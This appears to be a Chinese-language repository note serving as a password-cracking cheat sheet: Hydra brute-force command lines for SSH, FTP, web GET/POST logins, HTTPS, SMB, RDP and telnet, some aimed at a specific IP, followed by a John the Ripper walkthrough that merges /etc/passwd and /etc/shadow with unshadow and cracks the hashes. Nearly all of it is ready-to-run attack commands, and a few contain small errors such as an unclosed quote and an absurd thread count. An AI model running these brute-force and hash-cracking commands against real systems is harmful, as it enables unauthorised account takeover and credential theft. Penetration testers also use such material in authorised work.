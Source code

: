 # crack-
---
#hydra 网络账号破解神器

---

Hydra –L 文件路径 –P 密码路径 t 线程 –vV 详细显示 –o 指定生成路径 –f 找到密码就停止 –e ns 空密码和指定密码试探 ip service 爆破服务

爆破ssh：

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh

hydra -l 用户名 -p 密码字典 -t 线程 -o /1 -vV ip ssh

爆破ftp：

hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) –vV

hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

爆破web登录(get)：

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get/admin/

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get/admin/index.PHP

爆破web登录(post)：

hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form"/admin/login.php:user

hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form"login.php:id=USER&passwd=PASS:"

https爆破：

hydra -m /index.php -l admin -P pass.txt 10.36.16.18 https

smb爆破：

hydra -l administrator -P pass.txt 10.36.16.18 smb

rdp爆破：

hydra -l administrator -P pass.txt –o /root/1 –V rdp://ip

telnet爆破：

hydra ip telnet -L 用户 -P 密码 -e ns -f -v -t 1000000000000000


---
John the Ripper

John the Ripper是一个快速的密码破解工具，用于在已知密文的情况下尝试破解出明文，支持目前大多数的加密算法，如DES、MD4、MD5等。它支持多种不同类型的系统架构，包括Unix、Linux、Windows、DOS模式、BeOS和OpenVMS，主要目的是破解不够牢固的Unix/Linux系统密码。除了在各种Unix系统上最常见的几种密码哈希类型之外，它还支持Windows LM散列，以及社区增强版本中的许多其他哈希和密码。它是一款开源软件。Kali中自带John。

可执行文件位置：  /usr/sbin/john 

密码字典所在目录：/usr/share/john/ 

John the Ripper支持字典破解方式和暴力破解方式

破解Linux系统密码

破解Linux用户密码需要使用到两个文件（包含用户的信息和密码hash值）

/etc/passwd       包含用户信息的文件

/etc/shadow       包含密码信息的文件

创建一个 abc 用户，密码设置为 password ，用来测试



使用 unshadow 命令组合 /etc/passwd 和 /etc/shadow ，组合成 test_passwd 文件。其他 test_passwd 就是 /etc/passwd 和 /etc/shadow 的简单组合: 

 unshadow  /etc/passwd  /etc/shadow >  test_passwd 



然后用 John 破解密码了。我们可以使用 John 自带的密码字典，位于 /usr/share/john/password.lst ，也可以使用我们自己的密码字典。用John自带的密码字典为例： 

john  test_passwd 

若使用自己的密码字典： 

john  --wordlist=字典路径    test_passw 

查看破解信息：

john  --show  test_passwd 

